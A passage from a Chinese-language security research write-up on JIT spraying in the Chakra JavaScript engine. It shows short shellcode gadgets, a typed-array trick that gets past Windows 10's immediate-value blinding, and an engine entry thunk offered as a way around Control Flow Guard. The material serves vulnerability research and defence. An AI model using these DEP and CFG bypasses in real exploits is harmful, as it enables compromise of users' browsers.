 ```
0x5E52   // push edx--pop esi
0x5F54   // push esp--pop edi
0xA564   // movs dword ptr [edi], dword ptr fs:[esi] ; *esp = *(fs:0xC0)
0x4FB2   // mov  dl, 0x50        ; NtProtectVirtualMemory, Win8.1:0x4F, Win10:0x50
0x5290   // push edx
0xC358   // pop  eax--ret        ; ret to syscall

```

0x03 绕过Windows 10的 Chakra引擎的立即数加密
=================================

* * *

Windows 10的Chakra引擎并没有前述问题。但是，由于Windows 10的Chakra引擎高度优化，在处理整数类型数组写入操作时，会用最高效的方式生成JIT代码。例如，对于下面的JavaScript语句：

```
var ar = new Uint16Array(0x10000);
ar[0x9090/2] = 0x9090;
ar[0x9090/2] = 0x9090;
ar[0x9090/2] = 0x9090;
ar[0x9090/2] = 0x9090;
...

```

生成的机器指令是：

```
...
0b8110e0 66c786909000009090 mov   word ptr [esi+9090h],9090h
0b8110e9 66c786909000009090 mov   word ptr [esi+9090h],9090h
0b8110f2 66c786909000009090 mov   word ptr [esi+9090h],9090h
0b8110fb 66c786909000009090 mov   word ptr [esi+9090h],9090h
...

```

虽然Chakra引擎的JIT Spray防御措施只允许用户控制最多2字节立即数，但在上面这种情况下，数组索引和要写入的数字会出现在同一条指令中。所以实际上我们有了4字节而不是2字节的可控数据。

在这种情况下，同样可在其中嵌入前面提到的每条指令长度不大于2字节的Shellcode。只是由于多了中间的两字节0x00（会被作为指令“add byte ptr [eax],al”执行），所以需要在最开始两字节的指令中将EAX设为可写的地址。

0x04 利用Chakra引擎绕过CFG
====================

* * *

利用前面介绍的两种方法，可以实施JIT Spray绕过DEP。但嵌入在JIT代码中的Shellcode执行入口地址显然无法通过CFG检查。但实际上Chakra引擎的实现中就存在可用来绕过CFG的地方。

无论所执行的JavaScript是否需要启动JIT，Chakra引擎都一定会在内存中生成如下入口函数：

```
0:017> uf 4ff0000
04ff0000 55          push  ebp
04ff0001 8bec        mov   ebp,esp
04ff0003 8b4508      mov   eax,dword ptr [ebp+8]
04ff0006 8b4014      mov   eax,dword ptr [eax+14h]
04ff0009 8b4840      mov   ecx,dword ptr [eax+40h]
04ff000c 8d4508      lea   eax,[ebp+8]
04ff000f 50          push  eax
04ff0010 b840cb5a71  mov   eax, 715acb40h ; jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>
04ff0015 ffe1        jmp   ecx

```
